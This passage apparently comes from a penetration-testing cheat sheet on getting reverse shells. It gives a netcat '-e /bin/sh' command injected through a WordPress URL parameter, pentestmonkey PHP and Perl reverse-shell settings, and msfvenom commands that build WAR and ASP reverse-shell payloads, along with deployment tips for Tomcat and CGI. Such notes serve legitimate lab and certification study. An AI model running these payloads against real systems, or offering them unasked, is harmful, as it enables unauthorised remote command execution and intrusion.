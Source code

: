 Copy

```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```

#### PHP shell <a href="#php-shell" id="php-shell"></a>

This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:

Copy

```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```

#### Perl shell <a href="#perl-shell" id="perl-shell"></a>

As with the PHP shell, change the following variables in your [Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

Copy

```
my $ip = '127.0.0.1';
my $port = 1234;
```

I rarely use Perl shells. One time, I tried to call a Perl reverse shell in the filesystem using this [web server exploit](https://www.exploit-db.com/exploits/2017). The reverse shell didn't fire with a `.pl` extension, but worked fine when I used a `.cgi` extension. Setting correct permissions using `chmod 755 [file]` may have also helped.

#### WAR shell <a href="#war-shell" id="war-shell"></a>

If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:

Copy

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL (e.g. `http://[host]/shell/`)

#### ASP shell <a href="#asp-shell" id="asp-shell"></a>

Meterpreter is good for catching Windows shells, but it's good to practice doing them manually (e.g. because OSCP restricts Metasploit use). You can use `msfvenom` to generate a non-staged payload that can be caught by a netcat listener:

Copy

```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```
